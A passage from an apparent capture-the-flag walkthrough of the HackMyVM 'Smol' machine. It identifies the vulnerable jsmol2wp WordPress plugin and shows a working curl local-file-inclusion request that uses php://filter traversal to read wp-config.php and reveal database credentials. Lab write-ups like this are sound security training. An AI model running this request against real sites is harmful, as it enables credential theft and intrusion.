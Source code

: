 Notice the presence of the `jsmol2wp` plugin. We can Google this plugin with its version number to check if it has any public vulnerability.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/exploit.png)

Notice that this plugin is vulnerable to an LFI vulnerability. [This](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) goes into more detail on how to exploit this vulnerability. Let's read the database password in the `wp-config.php` file.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]                                                                                                                                     
└─$ curl -s 'http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php'                    
<?php
<SNIP>                     
/** The name of the database for WordPress */  
define( 'DB_NAME', 'wordpress' );

/** Database username */                                                                      
define( 'DB_USER', 'wpuser' );              
/** Database password */                                                                      
define( 'DB_PASSWORD', '<REDACTED>' );                                          
<SNIP>  
```

Now that we have a pair of login credentials, we can try to log into the WordPress instance.
